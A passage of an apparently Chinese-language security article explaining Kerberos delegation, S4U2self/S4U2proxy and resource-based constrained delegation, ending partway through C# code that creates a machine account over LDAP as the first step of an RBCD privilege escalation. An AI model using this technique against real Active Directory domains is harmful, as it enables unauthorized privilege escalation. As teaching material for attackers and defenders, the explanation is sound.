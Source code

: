 使用 S4U2proxy 委派和转发 TGT 委派机制时，当服务器模拟客户端并在远程服务器上执行操作（例如 `ldap_bind()` 或 `RPC_bind()`）时，会调用委派。Kerberos SSP 首先会通过检查本地票据缓存中是否有 forwarded-TGT，来检测 forwarded-TGT 委托机制是否可用；如果没有 forwarded-TGT，Kerberos SSP 将尝试执行 S4U2proxy 委派。

Resource-Based Constrained Delegation (RBCD)
--------------------------------------------

基于资源的约束委派（Resource-Based Constrained Delegation，RBCD）是在 Windows Server 2012 中新引入的功能，与传统的约束委派相比，它不再需要拥有 SeEnableDelegationPrivilege 特权的域管理员去设置相关属性，并且将设置委派的权限交换给了服务资源自身，即服务自己可以决定谁可以对我进行委派。

这里就用到了 S4U2self 和 S4U2proxy 两个扩展。下图可以表示（基于资源的）约束委派的执行流程。

![image-20230713131009369](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-6682264b47e5d6530502e3aa834ce785dbd9887e.png)

S4U2self 的描述如上图上半部分所示。 使用此扩展，服务会收到服务本身的服务票证（该票证不能在其他地方使用）。上图描述了以下协议步骤：

1. 用户机器向 Service 1 发出请求，用户通过了认证，但 Service 1 没有用户的授权数据。通常，这是由于身份验证是通过 Kerberos 之外的某些方式执行的。
2. Service 1 已通过 KDC 进行身份验证并获得其自身的 TGT，它通过 S4U2self 扩展代表指定用户向其自身请求服务票证。用户由 S4U2self 数据中的用户名和用户领域名来标识。或者，如果 Service 1 拥有用户的证书，则它可以使用该证书通过 `PA-S4U-X509-USER` 结构向 KDC 识别用户。
3. KDC 返回一个寻址到 Service 1 的服务票据，就像用户使用用户自己的 TGT 请求的一样。服务票证可能包含用户的授权数据。
4. Service 1 可以使用服务票据中的授权数据来满足用户的请求。然后该服务响应用户。尽管 S4U2self 向 Service 1 提供有关用户的信息，但此扩展不允许 Service 1 代表用户向其他服务发出请求。这就到了 S4U2proxy 发挥作用的时间了。S4U2proxy 的描述如上图下半部分所示。
5. 用户机器向 Service 1 发出请求，Service 1 需要以用户身份访问 Service 2 上的资源。 但是， Service 1 没有来自用户转发来的 TGT（forwarded-TGT）以通过转发 TGT 执行委派。此步骤适用两个先决条件。首先，Service 1 已通过 KDC 进行身份验证并拥有有效的 TGT。其次，服务 1 具有从用户到 Service 1 的可转发服务票证。此可转发服务票证可能已通过 KRB\_AP\_REQ 消息或通过 S4U2self 请求获取。
6. Service 1 代表指定用户向服务 2 请求服务票证。通过 Service 1 的服务票证中的客户端名称和客户端领域进行标识用户。要返回的票证中的授权数据也从服务票证中复制。
7. 如果请求中包含特权属性证书（PAC），则 KDC 通过检查 PAC 结构的签名数据来验证 PAC。如果 PAC 有效或不存在，KDC 将返回 Service 2 的服务票证，但存储在服务票证的 cname 和 crealm 字段中的客户端身份是用户的身份，而不是 Service 1 的身份。
8. Service 1 使用服务票证向 Service 2 发出请求。Service 2 将此请求视为来自用户，并假设该用户已通过 KDC 进行身份验证。
9. Service 2 响应请求。
10. Service 1 响应消息 5 中的用户请求。

在 RBCD 中，需要在 Service 2 上将 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性值设为 Service 1 的 SID，以允许 Service 1 对 Service 2 上的服务进行委派。由于计算机帐户对自身的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性有 WriteProperty 权限，因此可以通过设置该属性执行 RBCD 提权。

我们首先需要以计算机账户的身份连接到 LDAP，并创建一个新的计算机对象，可以借助 Windows .NET API 提供的 `System.DirectoryServices.Protocols.LdapConnection` 和 `System.DirectoryServices.Protocols.AddRequest` 接口完成该操作。

```c#
// ...

LdapDirectoryIdentifier identifier = new LdapDirectoryIdentifier(domainController, port);
LdapConnection connection = new LdapConnection(identifier);

// ...

AddRequest addRequest = new AddRequest(NewComputersDN, new DirectoryAttribute[] {
    new DirectoryAttribute("DnsHostName", computerName + "." + domain),
    new DirectoryAttribute("SamAccountName", computerName + "$"),
    new DirectoryAttribute("userAccountControl", "4096"),
    new DirectoryAttribute("unicodePwd", Encoding.Unicode.GetBytes("\"" + computerPassword + "\"")),
    new DirectoryAttribute("objectClass", "Computer"),
    new DirectoryAttribute("ServicePrincipalName", "HOST/" + computerName + "." + domain, "RestrictedKrbHost/" + computerName + "." + domain, "HOST/" + computerName, "RestrictedKrbHost/" + computerName)
});

try
{
    connection.SendRequest(addRequest);
    Console.WriteLine($"[*] Computer account {computerName}$ added with password {computerPassword}.");
}
catch (Exception ex)
{
```
